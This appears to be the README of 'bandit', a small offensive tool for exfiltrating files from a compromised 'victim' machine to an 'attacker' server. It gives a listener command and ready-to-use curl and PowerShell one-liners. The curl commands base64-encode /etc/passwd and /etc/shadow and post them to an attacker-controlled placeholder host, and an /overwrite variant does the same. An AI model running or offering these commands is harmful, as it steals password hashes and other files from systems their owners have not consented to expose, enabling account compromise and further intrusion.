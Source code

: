 # bandit
A quick and easy way to exfiltrate files

# usage
Attacker: ```python3 bandit.py [port]```

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/```

It is important to use double quotes to allow bash to process reading the files and encoding them before upload

If you wish to overwrite the existing files, instead of failing to upload if they exist on the server, specify the /overwrite path. This will scribble over any existing files on the server that conflict with the attempted upload, so use with caution. Yes, path travesal checks are made before file IO

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/overwrite```

Bandit is also compatible with Windows Powershell, although usage is not as straightforward. To save you some time, here is a oneliner to upload a single file, filename.txt, to the remote server as uploadedfile:

```if ($PWD.Provider.Name -eq 'FileSystem') { [System.IO.Directory]::SetCurrentDirectory($PWD) } ; Invoke-WebRequest -Uri http://yourip:port -Method POST -Body @{uploadedfile=[Convert]::ToBase64String([IO.File]::ReadAllbytes("filename.txt"))}```
